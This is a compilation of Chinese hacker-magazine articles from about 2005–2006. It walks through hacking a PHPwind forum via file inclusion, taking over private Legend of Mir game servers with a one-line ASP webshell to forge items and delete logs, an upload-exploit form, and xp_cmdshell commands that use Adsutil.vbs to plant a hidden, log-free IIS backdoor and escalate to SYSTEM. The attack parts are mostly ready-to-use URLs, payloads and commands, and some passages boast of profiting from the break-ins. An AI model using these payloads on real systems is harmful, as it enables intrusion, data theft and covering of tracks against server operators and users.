好了，非常得意地把账号发给那个网友。哪知他登录过后却说：威望怎么这么低啊？你要黑就黑个威望高点的啊，这个账户什么都不能看。哎……人心不足蛇吞象啊，一点崇拜、拜倒之意都没有，算了咱再来，谁叫我们是高手呢（臭鸡蛋飞飞……）——把他弄成管理员看你还有什么话说！

说干就干，还是setuser.php页面，但这次是编辑用户了，如图3所示。


通过对表单的分析构造URL：

```
http://www.xxxx.com/bbs/job.php?skin=../../admin/setuser&previewjob=preview&username=aaaa&email=aaaa@163.com&groupid=3&action=edit&uid=278301&rvrc=2000&money=1000&postnum=800&step=2
```

注意这里用了groupid=3，意思就是将aaaa提升为管理员。提交测试发现金钱、威望、发贴量都修改成功了，但是管理员却没有提升成功。打开源代码发现了如下语句：

```php
if($groupid=='3'&&($admin_name!=$manager)){
    $msg='只有超管才能添加管理员';
}
```

“只有超管才能添加管理员”，原来问题出在这里，于是搜索论坛管理员发现管理员用户名为Admin，于是再次构造URL：

```
http://www.xxxx.com/bbs/job.php?skin=../../admin/setuser&previewjob=preview&username=aaaa&email=aaaa@163.com&groupid=3&action=edit&uid=278301&rvrc=2000&money=1000&postnum=800&step=2&admin_name=admin
```

提交后仍然不能提升为管理员，看来只有放弃了（日后本机测试发现是global.php里的$groupid=$winddb['groupid'];语句使groupid不能修改）。

看来要想获得管理员只有另找出路了。再次查看本机后台发现修改论坛创始人（如图4所示）可以修改管理员密码，从而获得最高权限。


图4

问题出在manager.php中，它的源代码如下：

```php
if(!function_exists('readover')) && exit('Forbidden');
$basename='admin.php?adminjob=manager';
include R_P.'data/sql_config.php';
if(!$action){
    include PrintEot('manager');exit;
} else{
    $rs=$db->get_one("SELECT uid FROM pw_members WHERE username='$username'");
    if(!$rs && $username!=$admin_name)adminmsg('用户'.$username.'不存在,论坛创始人必须为注册会员');
    $adminemail=$_POST['adminemail'];
    if($spassword && strlen($password)==32){
        $check_pwd1=$spassword && adminmsg('两次输入密码不一致,请重新输入');
        $password=md5($spassword);
    } else{
        $password=$manager_pwd;
    }
    ......
    ......
    writeover('data/sql_config.php',$writetofile);
    if(!$rs && $username==$admin_name){
        $db->update("INSERT INTO pw_members SET username='$username',password='$password',groupid='3'");
    } else{
        $db->update("UPDATE pw_members SET password='$password',groupid='3' WHERE username='$username'");
    }
    adminmsg('论坛创始人账号设置完成');
}
```

可以看出这里的groupid是直接赋值等于3的，同样也有权限验证，但是通过修改会员资料的失败经验，我们可以构造出如下URL：

```
http://www.xxxx.com/bbs/job.php?skin=../../admin/manager&previewjob=preview&username=admin&password=12345&check_pwd=12345&adminemail=aaaa@163.com&action=submit&admin_name=admin
```

提交测试成功！至此我就拿到了管理员权限了，但是这一步我是在本机上做的，没有去改别人的管理员密码（良心还是大大的好）。

最后把账号给那个网友之后，把他乐惨了，崇拜、仰慕之情溢于言表！哎……怎么又见鸡蛋？我也该睡了……

### 写在文后

这次攻击针对的是PHPwind Board v1.3.6版本（以上版本未做测试），也算发现了该论坛的一个不小的漏洞吧，但本文并不是教大家如何去攻击PHPwind论坛，而是在于发现问题和解决问题。

漏洞可以归纳为：job.php任意文件包含执行，远程攻击者可以利用这个漏洞通过构造URL来获得系统权限或进行非法操作。

### 攻击测试

备份数据：

```
http://localhost/PHPwind/job.php?skin=../../admin/backup&previewjob=preview&tablebl]=pw_members&adminjob=bakup&bakjob=bakout&action=bakout
增加用户：
http://localhost/PHPwind/job.php?skin=../../admin/setuser&previewjob=preview&username=aaaa&password=12345&email=mmmmm@163.com&groupid=3&action=addnew
编辑用户：
http://localhost/PHPwind/job.php?skin=../../admin/setuser&previewjob=preview&username=bshuang&email=mmmmm@163.com &groupid=10&action=edit&uid=278301&rvrc=2000&money=1000&postnum=800&step=2
改管理员密码
http://localhost/PHPwind/job.php?skin=../../admin/manager&previewjob=preview&username=admin&password=12345&check_pwd=12345&adminemail=mmmmm@163.com&action=submit&admin_name=admin
```

脚本小子：2004年的网络是动荡的，很多人都在私下黑站、挂马、卖装备，同时国家屡禁不止的私服也在地下悄悄的开放着，吸引着众人的眼光，也为挂马、卖装备的人提供了一份赖以生存的土壤。当然，有阴暗的一面就有光明的一面，国家逐步加大了对私服的打击力度，同时也有越来越多的人开始弃恶从善，走出这片泥潭，开始抛弃生活在地下的日子。新年到，我们热情地欢迎这些朋友的到来，以后我们将一起学习，一起进步，一起与阴暗势力做斗争！

适合读者：入侵爱好者

前置知识：无

### 黑私服卖装备挂马技术追踪

文/图 无名

雄赳赳气昂昂跨进2005！在新的一年里回首2004年的往事，感觉特别幼稚可笑。我凭借着一点点的黑客技术，以黑客自居，利用黑客技术入侵传奇私服，刷装备卖钱，由于入侵的方法涉及到本人发现的没有被公布的私服整站系统的漏洞，所以很多网络管理员并没有找到问题的根节所在，只能关闭服务器或者关闭网站做调整，后门并没有被真正清除。2005年了，本人左思右想，还是决定将入侵私服的方法公布出来，希望网络能更成熟。

这里先提两个最普及的私服整站系统，一个是Eihomemir传奇私服全站系统，另一套也和此系统相似。它们的网页格式分别如图1、图2所示。


对于这两套系统，我们获得WebShell简直容易得让人难以置信！

先说说怎么得到使用这两个版本的传奇私服吧。在百度上搜索“传奇 inurl: wplm.htm”或者“传奇 inurl: zxxs.htm”，可获得很多使用第一套系统的传奇站点，同样使用“传奇 inurl:tuku”或者“传奇 inurl:coolsites.asp”可获得使用第二套版本的传奇站点。由于这两套系统有一个共同的漏洞，我就一起讲。

找到使用这种版本的私服后，得到WebShell的几率有99%。假设我们要入侵的站点是http://www.XXX.com并且他使用这套系统。我们打开http://www.XXX.com/coolsites.asp，出现了“友情连接”的界面，站点名称和站点地址我们随便写，图片地址填入如下代码

```asp
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>try{eval(Request.form("#")+"")}catch(e){};</SCRIPT>
```

哈哈，一看就知道是冰狐浪子的ASP木马，根据黑防第四轮实验室中公布的获取Shell的办法，自然想到的是将数据库直接构造WebShell。我们先点提交，这样ASP木马就写到数据库里了。

这套系统的数据库文件很多，下载一套样本回来看看，可以找到Data文件夹里有8个数据库文件，分别是admin.asp，article.asp，diary.asp，down.asp，gb.asp，main.asp，news.asp和sites.asp。最可怕的是这些数据库并没有作防下载处理，哈哈，再加上不熟悉ASP程序的网管是不会一一修改数据库的连接文件的，所以有任何一个这样的数据库文件存在都可能成为我们的WebShell！

这里我选择了最容易利用的sites.asp数据库，我们刚才的操作已经将ASP木马写到了sites.asp这个数据库中，如果管理员没有将这个文件改名的话（这么多的数据库文件，我想管理员是不会对不重要的文件改名的，事实上遇到的N个站也证实确实如此），我们就可以用浪子的客户端连上去了，如图3、图4所示。


看！我们已经得到WebShell了。

由于这个木马功能太少了，我们要传一个功能强大的ASP木马上去，如海洋顶端ASP木马。在上传中尽量不要用文件流上传，那样会消耗服务器很多的内存。建议使用如下的方法：选择冰狐ASP客户端2.0运行，然后在Web路径下新建一个文件，最后选择写入文件，将海洋的ASP木马写入刚才新建的那个文件中。看看我们的成果，如图5所示。


站点的Web物理路径可以从冰狐浪子微型ASP木马的“环境探测”中得到。

WebShell得到了，下面的事就是添加GM、刷装备、清日志了。如果服务器上的传奇和网站是在一台机器上，一般会把传奇服务端放在D:\或E:\下，本例中我们看到的D:\MirServer就是传奇私服服务端程序。

在这里我要说服务端的几个重要的数据库文件，第一个是“d:\MirServer\Mud2\DBSrv200\FDB\Hum.DB”，这个文件记录着角色名对应的账号名，即ID，第二个是“d:\MirServer\Mud2\LogSrv\IDDB\Id.DB”，它记录着账号的密码，“\MirServer\Mir200\Envir\AdminList.txt”则是GM文件列表，如图6所示。


我们只要在里面添加一个角色名称就成为GM了，添加格式如下：

*:iamwuming（注意*和角色名之间有个空格）

然后保存如果提示没有权限，可能管理员把它设为只读属性了，不用怕，用砍客ASP木马将这个文件的只读属性去掉就可以了。下面要做的就是将“d:\MirServer\Mud2\DBSrv200\FDB\Hum.DB”和“d:\MirServer\Mud2\LogSrv\IDDB\Id.DB”下载下来，用UltraEdit打开，在AdminList.txt中我们看到了GM的角色名，在Hum.db中查找GM的角色名所对应的ID账号，如图7、图8所示。看Psujun就是GM的账号了。另外在Id.db中查找Psujun就可得到GM的密码，如图9所示。


这里对应的密码为8857126net。

好了，下面的工作是得到GM命令了。许多管理员为了管理私服的后门命令@testga，基本将危险的GM命令都改名了，即使我们得到GM权限，也没有任何价值。不过这里我们可以先下载服务器上的D:\MirServer\Mir200\m2server.exe程序到本地，然后到网上下载GM命令修改器并将修改器和m2server.exe放到同一个目录下运行，就可以查看所有GM命令了。如图10所示。


然后我们用得到的GM账号进入服务器，重读GM文件（这个是我们看到的命令）。这样不用服务器重启，我们加的角色iamwuming就成为GM了。

> 小提示：如果查到命令还是不是能使用，可以打开D:\MirServer\Mir200\Envir这个目录，一定有个Command.txt了，GM命令都在里面，找就是。好了，用加的GM账号进去看看吧，是GM了把？哈哈，使劲刷装备！

GM也当了，装备也刷了，最后该清理日志了。在“\mirserver\gamelog\LogDataSrv\LogBase”下是所有玩家的标志，如图11所示。


以每10分钟一个文件的形式记录，打开它会出现一行类似下一行的文字：

```
1 0 0 5 0 333 333 iamwuming 麻痹戒指 197139932310 2000-01-01 00:05:31
```

上一行的意思是“一个叫iamwuming的玩家在地图名为0坐标为333 333制造了麻痹戒指”。

> 小提示：其中第4个数字是所有玩家使用物品动作的代码，7是扔物品，4是捡物品，8是玩家之间的交易，9是买东西，10是卖物品，11是使用物品，5是死亡后掉的物品，19是被杀，1是存物品，0是取物品，6是毁掉物品(new)，5是制造物品(new)。

打开D:\mirserver\gamelog\LogDataSrv\LogBase\，把自己刷东西的时间段内的日志直接删了就行了，这样我们制造的东西管理员就不会找到了。

在这里顺便告诉大家一个好用的命令就是“@制造武器”，在传奇中把武器拿在手中，然后打入“@制造武器 -1 -1 -1 -1”，我们的武器就会变成攻击255，道术255，魔法255的极品武器了，这样的武器拿到手中才有GM的感觉，呵呵！

说到这里已经成功入侵了传奇私服了，而且后门是写到数据库里的，管理员就是用再NB的杀毒软件也是杀不出来，安全性是非常高的。

还有一套私服整站系统使用的是落日整站系统，我们都知道那套系统存在上传漏洞，受影响的文件是Uploadfile.asp，删除这个文件就没事了。还有一套系统的使用率更高，它就是动力3.51改过来的整站系统，如图12所示。


这套系统的漏洞是由于没有对上传变量初始化，在处理多个文件上传时，可以将ASP文件上传到网站目录。利用方法也是相当简单的：在网站注册一个账号后 在同一个窗口中打开如下的Up.htm。

```html
<form action="http://www.target.com/upfile_article.asp" method="post" name="form1" onSubmit="return check()" enctype="multipart/form-data">
<input name="FileName" type="FILE" class="tx1" size="20">
<input name="FileName" type="FILE" class="tx1" size="20">
<input type="submit" name="Submit" value=" 上传 " style="border:1px double rgb(88,88,88);font:9pt">
<input name="ImgWidth" type="hidden" id="ImgWidth">
<input name="ImgHeight" type="hidden" id="ImgHeight">
<input name="AlignType" type="hidden" id="AlignType">
</form>
```

前一个空选择个Gif文件，后个选一个ASP文件，并在路径下文件名后加个空格，然后上传，通过查看源文件就可以看到自己上传的脚本木马了。

有时候真不知道管理员都是干什么的，2004年8月这个漏洞都公布了，黑防更是详细分析了很多次，但不少使用这套系统的管理员还没有升级或者打补丁。更有甚者，大部分私服是用动网v7.0.0.0 sp2，自以为安全多了，可惜连数据库路径都不修，这样恶意攻击者下载了数据库后，打开Dv_log这个表就可以很容易找到前后台管理员账号和密码了。

说到这里已经涉及到网络上流传的大部分私服整站系统了，对于动力3.51上传漏洞的修补，可以到动力官方网站获得。相信公布了这篇文章后，我就不能再靠卖传奇私服装备来“赚钱”了。在新的一年里，努力学习学习，考考英语6级证，考取研究生才是我的目标，同时也希望我一样靠黑站挂马，黑传奇私服卖装备赚钱的黑友们停下来吧！毕竟我们还有更重要目标去实现！


## SCRIPT ATTACK

栏目编辑:脚本小子)scriptboy@hacker.com.cn

### 阿黑和大黑 Web入侵的故事

文/图 风之扬


计算机网络的普及给我们带来了很大的方便,但是其开放性、互联性等特点也使Web系统尤其是数据库更易受黑客、恶意软件和其他行为的攻击。阿黑最近就遇到了这样的问题,研究之后,阿黑对公司所代管的敏感数据提高了警惕,看来,系统的安全不能再仅仅局限于配置“Windows 2000 Server+SQL+IIS5.0”这样的系统了。坐在阿黑旁边的是来自电信公司的大黑,虽然两个人的名字差不多,可两个人总感觉有那么一层隔阂。这不,大黑“语重心长”地说,在网络安全中,各种硬件设施、防火墙都是必不可少的,除此之外,系统的安全设置及代码的数据安全性也是其中不可忽视的一部分。阿黑茫然的看着他,应了声:“喔”。其实,他在心里纳闷着,上次叫你给我研究研究那套代码都不肯公布出来,还好意思说呢。

大黑是阿黑的大哥,他最喜欢的是“Windows 2000 Server+SQL Server 2000+IIS5.0”的组合。毕竟这是我们最常用的网络服务器配置,虽然微软的漏洞层出不穷,补丁一个接一个,但大黑依然钟爱不止。看阿黑那么刻苦好学,大黑给阿黑讲了一些数据安全方面的知识,阿黑自然是洗耳恭听了。

阿黑听得很入迷,不过,他更感兴趣的应该是大黑手里的一套系统。前几天,阿黑请大黑吃饭,为的就是那套仰慕已久的“XX系统”,数据库就是用的SQL Server 2000。这不,代码被阿黑神不知鬼不觉的拿到了,可数据库一直不能搞到手,这也是阿黑觉得大黑有点“不够意思”的原因,怎么办?

还没下班,大黑的女朋友一个电话就把他“召唤”走了,由于初来乍到,公司的秃头经理又对阿黑说:“阿黑啊,我们的系统还有几个地方有点问题,你今天留下来把它完成吧!”阿黑望了望他泛光的头顶,毫不犹豫的说:“好!”头儿转过身,阿黑就开始叹气了。虽然饿着肚子,但问题很快就解决了。不过,阿黑总忘不了那件事:“把大黑的数据库搞到手!”

说干就干,阿黑想了很多方法来入侵大黑的操作系统,可大黑勤于打补丁,一时半刻对他的系统也没有办法。在失望中,阿黑打开了自己机器上的SQL Server 2000“企业管理器”。突然,阿黑想到,自己上次看的一个Web.config文件中,不是有数据库密码吗?想到这里,阿黑马上打开了这个ASP.net配置文件。

还有一个问题,大黑的数据库没有启动?怎么办?还是要管理员密码啊!通常情况下,SQL Server是默认启动的,也就是说,即使没有登陆,数据库也可能启动。想到这里,阿黑抱着试试看的心理打开了大黑的服务器,如图1 所示。

成功!现在,大黑的数据完全在阿黑的掌握之下了。连接后的数据如图2 所示。

这个系统是用ASP.net完成的,因此,数据库中涉及到很多的存储过程、索引等数据,简单的使用SQL方法


还不能完全得到数据。而且,由于网络连接的原因,数据导出的时候速度非常慢,而且导出的文件也残缺不全。如图3所示,用“导出数据”、“生成SQL脚本”等方法都试过了,还是不行。最关键的原因,是由于数据库比较大,而且是通过网络传输。试了很多方法,阿黑都是垂头丧气的败北而归,看着煮熟的鸭子就要飞了!

这么折腾了半个多小时,依然是毫无结果,导出的数据要么只是某个表,要么不完整而导致系统不能正常运行。就在绝望之时,阿黑准备撤退了,看来,还是请大黑吃一顿吧,也许他会大发慈悲,把数据库施舍出来。就在


```
<appSettings>
<add key="ConnectionString" value="Server=(local);database=OA; user id=sa;password=sa;"/>
<add key="DocDir" value="./Doc/"/>
……
</appSettings>
```

图1

图2

图3

www.hacker.com.cn

2006 精华奉献本 下册

## SCRIPT ATTACK

> 栏目编辑/脚本小子/scriptboy@hacker.com.cn

收拾背包的一刹那，阿黑看到了自己包包里面的移动硬盘，如果把移动硬盘插到大黑的电脑上，会是什么结果？那不就是相当于在大黑的电脑上面做本地的“备份数据库”操作吗？！

阿黑跳了起来，马上打开了“所有任务”下的“备份数据库”，然后选择备份目的地为“H：\”，也就是阿黑的移动硬盘。看来，现在想不拿到数据库都不行了！如图4所示。


完成上述操作后，阿黑就把大黑的数据库文件完全备份到自己的移动硬盘上面了。如图5所示。


拔下移动硬盘，阿黑吹着口哨把这些数据文件直接还原到自己的SQL Server2000上面，整个系统就可以完好无损地运行了，也许，在研究这段代码之后，阿黑的.net水平又可以上一个台阶了。
（本故事纯属虚构，如有雷同，实属巧合）

适合读者：脚本攻击爱好者、网管
前置知识：SQL Injection的一般方法

### Adsutil.vbs 在脚本入侵中的妙用

文/图 我非我

Adsutil.vbs是什么？它是Windows 2003 IIS服务自带的基于命令行下的IIS管理脚本，位于%SystemDrive%\Inetpub\AdminScripts目录下，95,426字节。这么大的脚本一看就知道功能肯定非常强大，事实也确是如此。我感觉它就是命令行下的“Internet 信息服务管理器（事实上Windows 2000用%SystemDrive%\Inetpub\AdminScripts下原有的20多个VBS进行管理，而到了2003则只剩下Adsutil.vbs一个了，足以说明它的功能是多么强大）。

提到Adsutil.vbs就不得不提到MetaBase.bin，这个文件是IIS最重要的配置文件，所有IIS的设置最终都会储存在这个文件中，IIS管理器和Adsutil.vbs就是通过对这个文件读取配置信息来显示给用户的。它的储存结构十分像注册表，是一种树型储存结构。IIS管理器和Adsutil.vbs通过一个Adspath的路径来访问MetaBase.bin，路径是由IIS:\开头，其中LocalHost表示本地服务器，而W3svc表示IIS服务，如IIS:\\LocalHost\W3svc/1表示本地服务器上的第一个Web站点，IIS:\\LocalHost/W3svc/1/root/Vdir表示第一个Web站点根目录下的Vdir虚拟目录。

#### Adsutil.vbs基本用法

有了这些前置知识，下面再回到Adsutil.vbs来看看它的用法：

```
C:\Inetpub\AdminScripts>cscript Adsutil.vbs
Microsoft (R) Windows Script Host Version 5.6
版权所有(C) Microsoft Corporation 1996-2001。保留所有权利。

Usage:
   ADSUtil.VBS <cmd> [<path> [<value>]]
```

Description:
IIS administration utility that enables the configuration of metabase properties
Supported Commands: //有脚本支持的命令，这个最重要
   GET, SET, ENUM, DELETE, CREATE, COPY, APPCREATEINPROC, APPCREATEOUTPROC, APPCREATEPOOLPROC, APPDELETE, APPUNLOAD, APPGETSTATUS
Samples: //简单的几个例子
Adsutil.vbs GET W3SVC/1/ServerBindings //查看第一个虚拟WEB站点的绑定端口。这里的W3SVC/1是IIS:\\LocalHost/W3SVC/1的简写，而ServerBindings是它的属性。下同。
Adsutil.vbs SET W3SVC/1/ServerBindings ":81:"
//设定第一个虚拟WEB站点的绑定端口为81。
Adsutil.vbs CREATE W3SVC/1/Root/MyVdir "IIsWebVirtualDir" //在第一个虚拟WEB站点根目录下建立一个MyVdir的虚拟目录。后面的“IIsWebVirtualDir”指的是目录类型。
Adsutil.vbs START_SERVER W3SVC/1
//启动第一个虚拟WEB站点。
Adsutil.vbs ENUM /P W3SVC
//查看IIS的所有站点。
For Extended Help type:
Adsutil.vbs HELP
//如果想要进一步查看帮助，键入此命令。

以上“//”后的文字都是我添加上去的注释，相信这样解释大家应该可以看懂。

我们所用的Adsutil.vbs命令有这么几个：GET，SET, ENUM, DELETE, CREATE。现在我来一一说明 GET命令通常是用来查看目录的各项属性值 SET是用来设定目录属性用的 ENUM也是用来查看属性，所不同的是它直接把所有设置好的属性直接全部显示出来。通常一个目录就有好几页东西可看。它有个可选的“/p”开关符，加上了这个开关，它只会列出此目录下的所有虚拟目录。

### 洞察虚拟目录属性

一个虚拟目录的大致属性值如下(只列出了常用的和入侵息息相关的):

```
KeyType: (STRING) "IIsWebVirtualDir" // 目录类型,
(
STRING)说明它是个字符串类型的属性。
AppRoot: (STRING) "/LM/W3SVC/1/ROOT"
// 目录IIS路径。
AppFriendlyName: (STRING) "默认应用程序"
// 应用程序名。
AppIsolated: (INTEGER) 2
// 指定运行于进程外还是进程中,数字类型属性。
HttpCustomHeaders: (LIST) (1 Items)
// 自定义IIS数据头。
"Powered By : Www.WoFeiWo.Info"
HttpErrors: (LIST) (42 Items)
// 各种IIS代码返回的页面。可以自行设置。
DefaultDoc: (STRING) "Default.htm,index.htm,Default.
asp, index.asp, Default.php, index.php, Default.aspx,
index.aspx" // 目录的默认主页名称。
Path: (STRING) "D:\ftp"
// 目录映射的物理路径。
AccessExecute: (BOOLEAN) False
// 目录的执行权限,是布尔值。
AccessSource: (BOOLEAN) False
// 目录的Webdav访问是否允许。
AccessRead: (BOOLEAN) True // 目录的只读权限。
AccessWrite: (BOOLEAN) False // 目录的写权限。
AccessScript: (BOOLEAN) True
// 目录是否允许执行脚本。
AccessNoRemoteExecute: (BOOLEAN) False
AccessNoRemoteRead: (BOOLEAN) False
AccessNoRemoteWrite: (BOOLEAN) False
AccessNoRemoteScript: (BOOLEAN) False
AccessNoPhysicalDir: (BOOLEAN) False
ScriptMaps: (LIST) (27 items)
// 应用程序扩展名映射
".asa, C:\WINDDOWS\system32\inetsrv\asp.dll, 5,
GET, HEAD, POST, TRACE"
".asp, C:\WINDDOWS\system32\inetsrv\asp.dll, 5,
GET, HEAD, POST, TRACE"
".aspx, C:\WINDOWS\Microsoft.NET\Framework\v1.1.
4322\aspnet_isapi.dll, 1, GET, HEAD, POST, DEBUG"
.............. // 这里省略N多元关数据。
AspEnableParentPaths: (BOOLEAN) True
AppPoolId: (STRING) "DefaultAppPool"
// 应用程序池名称。
DontLog: (BOOLEAN) True // 禁止IISLog纪录。
DirBrowseFlags: (INTEGER) -1073741762
EnableDirBrowsing: (BOOLEAN) True
// 目录是否允许列目录。
DirBrowseShowDate: (BOOLEAN) True
// 这里及以下都是显示目录时的参数设置。
DirBrowseShowTime: (BOOLEAN) True
DirBrowseShowSize: (BOOLEAN) True
DirBrowseShowExtension: (BOOLEAN) True
DirBrowseShowLongDate: (BOOLEAN) True
EnableDefaultDoc: (BOOLEAN) True
// 是否开启默认主页文档。
```

以上是我用“Cscript Adsutil.vbs ENUM w3svc/1/root”命令在自己机器上查看的内容,大家也可以自己输入以上的命令进行研究。

上面的属性我们都可以通过SET命令来进行设置,如下

```
Cscript Adsutil.vbs SET w3svc/1/root/目录名/属性名
设置值
```

如:

```
Cscript Adsutil.vbs SET w3svc/1/root/wofeiwo/
AccessRead 1
```

设置第一个虚拟Web站点下Wofeiwo虚拟目录的可读权限为True。

```
Cscript Adsutil.vbs SET w3svc/1/root/wofeiwo/Path "C:"
```

这是设置目录的映射路径是“C:\”。

### Adsutil.vbs 在入侵中的作用

1.MSSQL Injection的上传新思路

或许大家会在MSSQL的注入中碰到这种情况 SA权限,可以执行Cmd命令(xp_cmdshell,sp_OACreate,Job等等)。可是服务器是在内网,外面是个堡垒主机,只是做了80端口的映射,3389开了没有用(内网连不上),所有反向木马也传不上去(Tftp、Ftp、Wget、exe2bat等)这时候你该怎么办?

Amanl大哥经典的《榨干MSSQL最后一滴血》给我们一个很好的思路:就是利用%SystemDrive%\inetpub\AdminScripts下的VBS建立一个新的虚拟目录,自定义其映射的绝对路径。这样可以绕过对WEB绝对路径的猜解,然后通过BACKUP或MASKWEBTASK备份数据库、临时表到虚拟目录下(或是直接Echo)就可以得到了一个Shell。

上面的想法确很好,可是用过臭要饭的GetWebShell或小竹的NBSI\File的人都知道BACKUP或MASKWEBTASK的成功率有多么低,而Echo……我也不想说了,一行一行写那简直是找罪受,还要不停地转换特殊字符……其实我们可以把Amanl大哥的想法改进一下:在建立一个新的虚拟目录的时候,可以加上写目录的权限,再加上Webdav。那么我们就不就可以通过IIS上传任何文件了吗?也不仅仅局限于文本文件了。如果我们上传了一个反向后门再通过SA执行!呵呵,一切都搞定了!来,马上实验一下:

```
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsutil.vbs CRE-ATE w3svc/1/Root/wofeiwo "IIsWebVirtualDir"'--
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsutil.vbs script Adsutil.vbs SET w3svc/1/Root/wofeiwo/Path "C:"'--
```

注意上面的特殊字符自己要转化,或者你可以用NBSI2来执行以上命令。这样我们就在第一个Web站点下建立了一个Wofeiwo的虚拟目录,映射到了C:\根目录。给它加上读和写的权限,为了要一个Webshell,再加上执行脚本的权限。

```
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsutil.vbs SET w3svc/1/Root/wofeiwo/AccessRead 1;--
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsutil.vbs SET w3svc/1/Root/wofeiwo/AccessWrite 1;--
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsutil.vbs SET w3svc/1/Root/wofeiwo/AccessScript 1;--
```

写到这里,看过Superhei写的《对IIS写权限的利用》一文的朋友可能会想要自己构造HTTP包来上传文件,其实有更简单的方法。

```
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsutil.vbs SET w3svc/1/Root/wofeiwo/EnableDirBrowsing 1;--
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsutil.vbs SET w3svc/1/Root/wofeiwo/AccessSource 1;--
```


## SCRIPT ATTACK

>> 栏目编辑:脚本小子<scriptsboy@hacker.com.cn>

设置为允许目录和Webdav访问，然后打开你的IE，Ctrl+O打开“打开”对话框，键入你刚才设置的虚拟目录，选中“以WEB文件夹方式打开”，确定。如图1所示。

哈！看到所有的文件夹了吗？如图2所示。


现在你就可以像操作普通文件夹一样操作以上文件了，还可以Ctrl+C、Ctrl+V复制文件呢！这样就更方便地实现了上传、修改的功能。


### 2. 直接制作一个IIS后门

其实我们完全可以更进一步利用上面所说的思路，直接制作一个IIS后门。来看我的实现（这里使用了动鲨在《近乎完美的IIS后门》中所介绍的方法。不过我直接是用Adsuil.vbs这个MS自带的工具完成设置的，对此文章感兴趣的朋友可以自己找来查看）：

```
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs CREATE w3svc/1/Root/wofeiwo "IIsWebVirtualDir";--
//首先建立一个wofeiwo目录。
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs CREATE w3svc/1/Root/wofeiwo/door "IIsWebVirtualDir";--
//在wofeiwo目录下又建立一个door目录。
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs script Adsuil.vbs SET W3SVC/1/ROOT/wofeiwo/door/Path "C:";-- //设置door目录映射到C:根目录。
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs SET W3SVC/1/ROOT/wofeiwo/door/AccessRead 1;-- //这里及以下都是给目录设置各种权限。可以参考以上的命令注释。
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs SET W3SVC/1/Root/wofeiwo/door/AccessWrite 1;--
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs SET W3SVC/1/ROOT/wofeiwo/door/AccessScript 1;--
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs SET W3SVC/1/Root/wofeiwo/door/DontLog 1;--
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs SET W3SVC/1/Root/wofeiwo/door/EnableDirBrowsing 1;--
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs SET W3SVC/1/Root/wofeiwo/door/AccessSource 1;--
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs SET W3SVC/1/ROOT/wofeiwo/door/AccessExecute 1;--
```

可能会有人说，这不就是和上面的一样吗？你仔细看会发现我们上面新建的第一个目录“wofeiwo”并没有设置“Path”属性，也就是说它没有映射到任何实际的目录上去。这里应用了IIS的一个BUG（涉及到IIS5.0、5.1、6.0），即对于没有“Path”属性的虚拟目录是不会在IIS管理器中出现的，相当于一个隐藏的目录，而其下的虚拟目录“door”由于上级目录不可见，所以它也是不可见的！但是“door”目录是设置了“Path”属性，所以如果我们提交http://IP/wofeiwo/door/，其结果是会返回C:\下的文件目录，现在此目录已经是我们可以任意写文件读文件了，并且还可以转到System32目录下运行程序。我们的后门雏形建成了（注意看我这里是加上了AccessExecute执行权限的）。

我们现在执行程序还是IIS默认的IUSR用户权限，没有高权限总是不爽，下面来提升我们的权限，加IUSR用户为管理员就不说了。下面说说另外两个方法。

（1）设置AppIsolated，使此目录下程序在IIS的进程中运行，这样就继承了IIS的System权限

```
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs SET w3svc/1/Root/wofeiwo/door/ AppIsolated 0';--
```

（2）将解析ASP文件的Asp.dll加入到IIS的特权DLL中，使其在进程中运行，从而的到IIS的LocalSystem权限。操作方式如下，首先得到IIS所有的特权Dll。

```
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs GET w3svc/InProcessIsapiApps';--
```

返回：

```
InProcessIsapiApps : (LIST) (5 Items)
"C:\WINDOWS\system32\inetsrv\httptext.dll"
"C:\WINDOWS\system32\inetsrv\httppdbc.dll"
"C:\WINDOWS\system32\inetsrv\ssinc.dll"
"C:\WINDOWS\system32\msw3prt.dll"
"C:\WINDOWS\Microsoft.NET\Framework\v1.1.4322\aspnet_isapi.dll"
```

再将Asp.dll设置到InProcessIsapiApps组中去。这里要注意，把上面的所有查到的Dll都加上，否则会被删除。

```
Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\ Adsuil.vbs SET W3svc/InProcessIsapiApps "C:\WINDOWS\system32\inetsrv\httptext.dll" "C:\WINDOWS\system32\inetsrv\httppdbc.dll" "C:\WINDOWS\system32\inetsrv\ssinc.dll" "C:\WINDOWS\system32\msw3prt.dll" "C:\WINDOWS\Microsoft.NET\Framework\v1.1.4322\aspnet_isapi.dll" "C:\WINDOWS\system32\inetsrv\asp.dll"';--
```

返回：

```
